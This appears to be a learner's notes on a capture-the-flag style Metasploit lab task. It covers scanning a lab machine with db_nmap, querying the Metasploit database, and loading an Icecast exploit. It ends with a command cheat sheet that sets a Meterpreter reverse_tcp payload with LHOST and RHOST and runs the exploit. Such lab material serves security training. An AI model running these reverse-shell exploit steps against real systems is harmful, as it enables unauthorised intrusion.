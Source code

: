 # Task 5: Move the shell
```
Remember that database we set up? In this step, we're going to take a look at what we can use it for and exploit our victim while we're at it!

As you might have noticed, up until this point we haven't touched nmap in this room, let alone perform much recon on our victim box. That'll all change now as we'll take a swing at using nmap within Metasploit. Go ahead and deploy the box now, it may have up to a three-minute delay for starting up our target vulnerable service. 

*Note, Metasploit does support different types of port scans from within the auxiliary modules. Metasploit can also import other scans from nmap and Nessus just to name a few.  
```

2. What service does nmap identify running on port 135?
```db_nmap -sV 10.10.127.144 -p 135```
3. Let's go ahead and see what information we have collected in the database. Try typing the command '```hosts```' into the msfconsole now.
4. How about something else from the database, try the command '```services```' now.
5. One last thing, try the command '```vulns```' now. This won't show much at the current moment, however, it's worth noting that Metasploit will keep track of discovered vulnerabilities. One of the many ways the database can be leveraged quickly and powerfully.
6. Now that we've scanned our victim system, let's try connecting to it with a Metasploit payload. First, we'll have to search for the target payload. In Metasploit 5 (the most recent version at the time of writing) you can simply type 'use' followed by a unique string found within only the target exploit. For example, try this out now with the following command 'use icecast'. What is the full path for our exploit that now appears on the msfconsole prompt? *This will include the exploit section at the start

Dont have energy to copy stuff so here is my note:
```console
$msfconsole
$set PAYLOAD windows/meterpreter/reverse_tcp # set payload
$set LHOST <my ip> #
$search <name> # search for exploit
$use <num/name> # select the exploit
$set RHOST <target ip>
$set RPORT <target port>
$run -j # run the exploit
$expolit # run the exploit
$jobs # check all jobs run on the system
$sessions # list all sessions
```